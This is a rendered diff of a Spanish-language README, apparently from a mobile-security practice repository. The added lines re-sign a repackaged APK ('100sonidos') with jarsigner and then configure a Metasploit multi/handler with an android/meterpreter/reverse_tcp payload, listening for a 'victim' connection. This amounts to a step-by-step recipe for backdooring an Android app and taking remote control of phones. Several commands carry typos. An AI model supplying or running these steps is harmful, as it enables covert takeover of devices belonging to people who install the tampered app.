

Before and after one commit to shencanet/Mobile_secutity, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -21,6 +21,20 @@ generar genkey
 keytool -genkey -v -keystore 100sonidos.keustore -alias 100sonidos -keyalg RSA -keysize 2048 -validity 10000
 pide password
 generamos certificado
+pasamos el certificado a la palicacion original
+jarsigner -verbose -sigalg SHA1withRSA -d igestalg SHA1 -keystore 100sonidos.keystore  100sonidos.apk 100sonidos<br>
+
+--iniciar consola em metaexploid comando msfconsole
+--esperamos conexion victima
+--usamos multi/handler
+use multi/handler
+--usamos payload
+set payload android/meterpreter/reverse_tcp
+configurar puerto usado set LPORT 4545
+SET LHOST "DIRECCION IP"
+
+--ESTA PREPARADO PARA LA CONEXION DE LA VICTIMA
+
 
 
 
```
